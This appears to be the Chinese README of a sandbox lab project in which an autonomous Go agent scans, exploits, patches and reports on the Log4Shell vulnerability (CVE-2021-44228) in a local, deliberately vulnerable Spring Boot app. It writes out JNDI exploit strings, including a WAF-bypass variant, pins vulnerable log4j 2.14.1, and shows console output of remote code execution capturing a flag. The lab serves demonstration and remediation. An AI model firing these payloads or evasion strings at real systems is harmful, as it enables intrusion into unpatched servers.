


<p align="center">
  
</p>

<h1 align="center">🤖 AUTO AUDIT</h1>

<p align="center">
  <b>自主反应式执行器代理 (Go/Java) 的隔离演示实验室</b>
</p>

<p align="center">
  <a href="README.md"><b>Русский 🇷🇺</b></a> • <a href="README.en.md"><b>English 🇬🇧</b></a> • <a href="README.zh.md"><b>中文 🇨🇳</b></a> • <a href="README.es.md"><b>Español 🇪🇸</b></a> • <a href="README.de.md"><b>Deutsch 🇩🇪</b></a> • <a href="README.it.md"><b>Italiano 🇮🇹</b></a> • <a href="README.ar.md"><b>العربية 🇸🇦</b></a>
</p>

<p align="center">
  <a href="https://golang.org"></a>
  <a href="https://openjdk.org"></a>
  <a href="https://maven.apache.org"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
</p>

---

## 🧭 概述

> [!NOTE]
> **AUTO AUDIT** 是一个软件系统，演示了针对关键的 **Log4Shell** 漏洞（**CVE-2021-44228**）的漏洞发现、验证、利用、自动修复（自我修复）和合规报告的 **100% 自主闭环（感知-思考-行动，Sense-Think-Act）** 周期。
>
> 该沙箱生成了一个基于 **Java Spring Boot** 的本地目标 Web 应用程序、一个嵌入式 **LDAP TCP 回调监听器 (LDAP TCP Callback Listener)** 以及一个认知型 **Go 智能体** 内核，后者在部分可观测环境（*部分可观测马尔可夫决策过程 —— POMDP*）中协调各项行动。




---

## 🛠️ 技术架构与组件

该智能体的软件结构是遵循六边形架构（端口和适配器）、SOLID 和 TDD 原则开发的：

* 📂 **[cmd/agent/main.go](cmd/agent/main.go)** — 入口点。管理后台服务生命周期并协调智能体主循环。
* 📂 **`internal/`** — 认知回路的核心业务逻辑：
  * 🧠 **[agent/agent.go](internal/agent/agent.go)** — 认知引擎。实现决策策略和智能体循环。
  * 💾 **[core/model.go](internal/core/model.go)** — 基于 `sync.RWMutex` 的线程安全 `KnowledgeBase`（长期记忆/LTM）。
  * 🔌 **[core/effector.go](internal/core/effector.go)** — 执行器的 `Tool` 接口。
  * ⚙️ **[effectors/](internal/effectors/)** — 多态执行器（工具）注册表：
    * 🔍 `ToolPortScanner` — 侦察和网络端口扫描。
    * 🌐 `ToolDiscovery` — Web 应用参数映射 and 输入向量解析（`X-Api-Version`）。
    * 🔬 `ToolPayloadGenerator` — 合成 JNDI 签名向量。
    * 🚀 `ToolProber` — 带外（OOB）漏洞验证。
    * 🛡️ `ToolSemanticFuzzer` — 通过嵌套查找进行混淆变异（绕过 WAF）。
    * 🩹 `ToolRemediator` — 自动化热修复（自我修复）。
    * 📄 `ToolReporter` — 安全审计报告生成。
* 📂 **`pkg/`** — 共享模块和实用工具：
  * 📡 **[oob/](pkg/oob/)** — 带外 LDAP 和 HTTP 服务器。
  * ☕ **[jvm/](pkg/jvm/)** — 管理编译后的本地 Java 模拟目标进程。
* 📂 **[deployments/](deployments/)** — 包含 Docker 和 Compose 配置文件。
* 📂 **[test/vulnerable-app/](test/vulnerable-app/)** — 目标受漏洞影响的 Java Spring Boot 微服务。


---

## 🎯 数学模型与认知循环规范（Think-Act 循环）

该智能体的决策过程被形式化为**部分可观测马尔可夫决策过程 (POMDP)**，由元组 $\langle S, A, T, R, \Omega, O, \gamma \rangle$ 表示：
* $S$ 是目标环境的离散状态空间（端口可达性、入口参数映射、WAF 存在性、失陷状态、补丁应用、合规文档状态）。
* $A$ 是执行器的动作空间（执行以下工具：`port_scanner`、`discovery`、`payload_generator`、`prober`、`semantic_fuzzer`、`remediator`、`reporter`、`stop`）。
* $\Omega$ 是观测空间（接收到的 HTTP 状态码、OOB TCP 回调、文件系统事件）。
* $O(o \mid s', a)$ 是观测函数，决定了在执行动作 $a$ 后接收到观测值 $o \in \Omega$ 的概率。

### 1. 信念状态表示
智能体无法直接访问隐藏状态 $s \in S$，而是运行在信念状态 $b(s)$ 上 —— 即 $S$ 上的概率分布，在线程安全的 `KnowledgeBase` 中维护和动态更新：
* $b(S_{recon}) \in \{0, 1\}$ — 网络侦察状态（开启/关闭）。映射到 `ToolPerformance["port_scanner"]`。
* $b(S_{discovery}) \in \{0, 1\}$ — 输入向量映射状态（是否找到参数位置）。映射到 `len(DiscoveryVectors) > 0`。
* $b(S_{payload}) \in \{0, 1\}$ — 漏洞利用签名就绪状态。映射到 `len(CustomPayloads) > 0`。
* $b(S_{exploit}) \in \{0, 1\}$ — 目标失陷状态（捕获战利品）。映射到 `len(Loot) > 0`。
* $b(S_{patch}) \in \{0, 1\}$ — 热补丁应用状态。映射到 `PatchApplied`。
* $b(S_{verify}) \in \{0, 1\}$ — 修复验证状态。映射到 `PatchVerified`。
* $b(S_{report}) \in \{0, 1\}$ — 合规文档状态。映射到 `ReportGenerated`。

### 2. 策略映射
智能体的核心决策循环 `Think()` 实现了一个确定性策略 $\pi: B \to A$，将当前的信念状态 $b$ 映射到最佳执行器动作 $a \in A$。

### 3. 自适应学习与执行器效用
对于每个工具 $a \in A$，智能体在 `ToolStats` 中累积执行统计信息，并计算效用指标（效率得分）：

$$\text{EfficiencyScore}(a) = \frac{SuccessCount_a}{UsageCount_a}$$

这被用于自适应路径规划：如果初次漏洞利用尝试（`prober`）失败（即 $\text{EfficiencyScore}(\text{prober}) = 0$），智能体会推断存在 WAF 过滤，从而转变策略以激活 `semantic_fuzzer` 进行有效载荷混淆，并重新尝试利用。

### 步骤详解生命周期：

| 步骤 | 所选工具 | 动作与底层过程 | 信念状态变化 |
| :--- | :--- | :--- | :--- |
| **1** | `port_scanner` | 探测目标端口 `:8080` 的 TCP 套接字。 | 发现 HTTP 端口（$b(S_{recon}) = 1$）。 |
| **2** | `discovery` | 分析标头和页面结构。 | 识别出参数 `X-Api-Version` 作为入口点（$b(S_{discovery}) = 1$）。 |
| **3** | `payload_generator` | 构建原始 JNDI 漏洞利用签名。 | 利用 `\${jndi:ldap://127.0.0.1:1389/Exploit\}` 更新有效载荷（$b(S_{payload}) = 1$）。 |
| **4** | `prober` | 尝试利用。智能体发送有效载荷。 | 被目标的 WAF 拦截。$\text{EfficiencyScore}(\text{prober}) = 0$。 |
| **5** | `semantic_fuzzer` | 通过嵌套查找进行签名变异。 | 生成混淆后的有效载荷（$b(S_{payload}) = 1$，绕过 WAF）。 |
| **6** | `prober` | 发送带有变异签名的漏洞利用有效载荷。 | LDAP 服务器捕获传入的 TCP 重定向。确认实现远程代码执行/RCE（$b(S_{exploit}) = 1$）。 |
| **7** | `remediator` | 自动修复。热修复目标应用程序配置。 | 使用 `-Dlog4j2.formatMsgNoLookups=true` 重新初始化 JVM 属性（$b(S_{patch}) = 1$）。 |
| **8** | `prober` | 验证（重新测试）。 | LDAP 服务器监控回调端口。无连接 $\rightarrow$ $b(S_{verify}) = 1$。 |
| **9** | `reporter` | 编写合规报告。 | 在 `reports/cve_2021_44228_report.md` 生成审计报告（$b(S_{report}) = 1$）。 |
| **10**| `stop` | 终止。 | 循环完成。 |

## 📊 算法流程图

### 1. 智能体通用生命周期流程图（Sense-Think-Act 循环）
该图说明了智能体持续运行的生命周期，从初始化开始，一直到编译合规报告和会话关闭。

```mermaid
%%{init: {
  'theme': 'dark',
  'themeVariables': {
    'background': '#0f172a',
    'primaryColor': '#1e293b',
    'primaryTextColor': '#cbd5e1',
    'primaryBorderColor': '#475569',
    'lineColor': '#38bdf8',
    'secondaryColor': '#1e293b'
  }
}}%%
flowchart TD
    classDef startEnd fill:#1e293b,stroke:#475569,stroke-width:2px,color:#f8fafc;
    classDef step fill:#0f172a,stroke:#3b82f6,stroke-width:1px,color:#e2e8f0;
    classDef decision fill:#1e1b4b,stroke:#6366f1,stroke-width:1px,color:#e2e8f0;
    classDef action fill:#022c22,stroke:#10b981,stroke-width:1px,color:#e2e8f0;

    Start([开始]):::startEnd --> Init[初始化 StandaloneExecutor 和 KnowledgeBase]:::step
    Init --> LoopStart{认知循环}:::decision
    
    %% Think Phase
    LoopStart --> Think["思考 (Think)：选择最佳执行器动作 a = Think()"]:::decision
    
    %% Branch on Stop
    Think --> IsStop{a == 'stop'?}:::decision
    IsStop -- Yes --> Terminate([智能体循环终止]):::startEnd
    
    %% Act Phase
    IsStop -- No --> FetchTool["从 Tools[a] 注册表中检索执行器"]:::step
    FetchTool --> Execute[行动 (Act)：运行 Tool.Execute]:::action
    
    %% Sense Phase
    Execute --> Sense[感知 (Sense)：捕获环境反馈]:::action
    Sense --> UpdateStats[更新内存中 ToolStats 的效用值]:::step
    UpdateStats --> RecordObs[在 Observations 中记录事件]:::step
    
    %% Wait
    RecordObs --> Delay[等待 800 ms]:::step
    Delay --> LoopStart
```

### 2. 决策核心算法流程图（Think）
此图展示了在循环的每一次迭代中，`Think()` 函数根据当前的信念状态所执行的精确决策逻辑：



---

## 📦 受漏洞影响的 Java 应用程序规范

`test/vulnerable-app/` 下的目标应用程序是一个由 **Spring Boot 2.7.18** 驱动的 REST 控制器，带有旧版 **Apache Log4j2** 依赖项：

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version> <!-- Vulnerable version supporting JNDI lookup -->
</dependency>
```

该受漏洞影响的端点在未进行过滤的情况下记录 HTTP 标头：
```java
logger.info("[AUDIT] API Version header logged: {}", apiVersion);
```

当接收到 `${jndi:ldap://...}` 时，log4j core 会向监听端口 `1389` 发起 LDAP 解析。

---

## 🚀 安装与启动

该模拟实验室支持两种部署模式：直接在宿主机上本地执行（选项 A）或使用 Docker Compose 在隔离的网络环境中进行完全容器化执行（选项 B）。

### 选项 A. 在宿主机上本地启动

#### 前提条件
* **JDK 17+**（通过 `java -version` 验证）
* **Maven 3.8+**（通过 `mvn -version` 验证）
* **Go 1.21+**（通过 `go version` 验证）

#### 1. 构建 Java 目标微服务
将目标 Java 应用程序编译为可执行的 fat JAR：
```bash
cd test/vulnerable-app
mvn clean package
cd ../..
```
*验证是否创建了 `test/vulnerable-app/target/vulnerable-app-simple-1.0.0.jar`。*

#### 2. 构建漏洞利用有效载荷
编译 HTTP Web 服务器提供的 Java 类：
```bash
javac internal/payload/Exploit.java
```

#### 3. 构建并运行自主沙箱
使用即时解释运行 Go 主循环：
```bash
go run ./cmd/agent
```

或编译为独立的二进制可执行文件：
```bash
go build -o test_agent ./cmd/agent
./test_agent
```

---

### 选项 B. 在隔离的容器沙箱中运行（Docker Compose）

> [!TIP]
> 此方法不需要在您的宿主机上安装 Go、Java 或 Maven。整个实验室环境将在子网划分为 `172.20.0.0/16` 的隔离虚拟网络中自动构建并运行。


#### 前提条件
* 已安装 **Docker** 和 **Docker Compose** 插件（通过 `docker compose version` 验证）。

#### 1. 启动实验室
在项目根目录下使用单个命令构建容器镜像并生成服务：
```bash
docker compose -f deployments/docker-compose.yml up --build
```

#### 2. 生命周期与内部流程：
* `vulnerable-app` 编译 Spring Boot 应用程序，挂载内部目录，将秘密标志写入 `/var/lib/secret/flag.txt`，并在端口 `:8080` 上提供端点服务。
* `reflective-agent` 构建 Go 编译器阶段，编译 `Exploit.java`，运行 LDAP/HTTP 监听器，并启动认知循环。
* 宿主机文件系统上的本地目录 `reports/` 被挂载到智能体容器 —— 最终的 GOST 合规性报告会自动存储在您的宿主机文件夹 `reports/cve_2021_44228_report.md` 中。

#### 3. 停止沙箱
要清理容器环境并释放网络配置，请运行：
```bash
docker compose -f deployments/docker-compose.yml down
```

---

## 📊 控制台输出示例

```text
=== ДЕМОНСТРАЦИОННЫЙ СТЕНД РЕАКТИВНОГО АГЕНТА (JAVA SPRING TARGET) ===
[*] Запуск скомпилированного уязвимого Java Spring приложения локально...
[*] Ожидание инициализации веб-контекста Spring (3.5 сек)...
[*] Инициализация агента-исполнителя для цели: http://localhost:8080
================================================================
[ВЫВОД] Выбран инструмент: 'port_scanner' (Текущая фаза: Reconnaissance)
[ЭФФЕКТОР:port_scanner] Сканирование порта localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружен открытый HTTP-порт localhost:8080. Java Spring Web-служба отвечает.

[ВЫВОД] Выбран инструмент: 'discovery' (Текущая фаза: Discovery)
[ЭФФЕКТОР:discovery] Исследование структуры веб-приложения http://localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружены потенциальные векторы ввода: GET-параметр '/?input=' и HTTP-заголовок 'X-Api-Version'.

[ВЫВОД] Выбран инструмент: 'payload_generator' (Текущая фаза: Discovery)
[ЭФФЕКТОР:payload_generator] Анализ уязвимостей и синтез сигнатур...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирована сигнатурная нагрузка для CVE-2021-44228: '${jndi:ldap://127.0.0.1:1389/Exploit}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${jndi:ldap://127.0.0.1:1389/Exploit}' на http://localhost:8080...
[НАБЛЮДЕНИЕ] FAILURE: Атака не удалась. Уязвимость не эксплуатирована или флаг не перехвачен.

[ВЫВОД] Выбран инструмент: 'semantic_fuzzer' (Текущая фаза: Discovery)
[ЭФФЕКТОР:semantic_fuzzer] Запуск обфускации и семантического фаззинга против WAF...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирован обфусцированный вектор обхода: '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}' на http://localhost:8080...
[LDAP SERVER] Получен LDAP BindRequest. Отправка BindResponse...
[LDAP SERVER] Получен LDAP SearchRequest. Отправка JNDI Referral...
[HTTP SERVER] Получен запрос на загрузку Exploit.class
[HTTP SERVER] >>> ПЕРЕХВАЧЕН СЕКРЕТНЫЙ ФЛАГ: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026} <<<
[НАБЛЮДЕНИЕ] SUCCESS: LDAP Callback получен на порту 1389. RCE отработал. Перехваченный флаг: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026}.

[ВЫВОД] Выбран инструмент: 'remediator' (Текущая фаза: Remediation)
[ЭФФЕКТОР:remediator] Анализ причин уязвимости и генерация исправления для http://localhost:8080...
[ЭФФЕКТОР:remediator] Отправка команды применения патча на http://localhost:8080/remediate...
[НАБЛЮДЕНИЕ] REMEDIATION_SUCCESS: Патч применен. На целевое приложение отправлен запрос ремедиации (изменен флаг -Dlog4j2.formatMsgNoLookups=true). JVM успешно переинициализирована.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Verification)
[ЭФФЕКТОР:prober] Верификация патча: Повторная атака уязвимости на http://localhost:8080...
[НАБЛЮДЕНИЕ] VERIFICATION_SUCCESS: Попытка эксплуатации отклонена сервером. Входящий TCP-коллбек на порт 1389 отсутствует. Уязвимость успешно устранена.

[ВЫВОД] Выбран инструмент: 'reporter' (Текущая фаза: Verification)
[ЭФФЕКТОР:reporter] Формирование отчета об уязвимости по стандартам РФ для http://localhost:8080...
[НАБЛЮДЕНИЕ] REPORT_SUCCESS: Отчет успешно сгенерирован и сохранен в файл 'reports/cve_2021_44228_report.md'.

================================================================
[INFO] Жизненный цикл аудита, патчинга и комплаенса завершен.
```

---

## 📜 合规与安全策略
在 `reports/cve_2021_44228_report.md` 生成的合规报告符合以下关键的网络安全框架：
* **GOST R 56939-2016** — 信息保护。安全软件开发。
* **联邦法 No. 152-FZ** “关于个人数据”的要求。
* **联邦法 No. 187-FZ** “关于俄罗斯联邦关键信息基础设施的安全”。

---

## 🛡️ 许可证
该项目根据 **MIT 许可证** 授权。有关详细信息，请参见 [LICENSE](LICENSE) 文件。
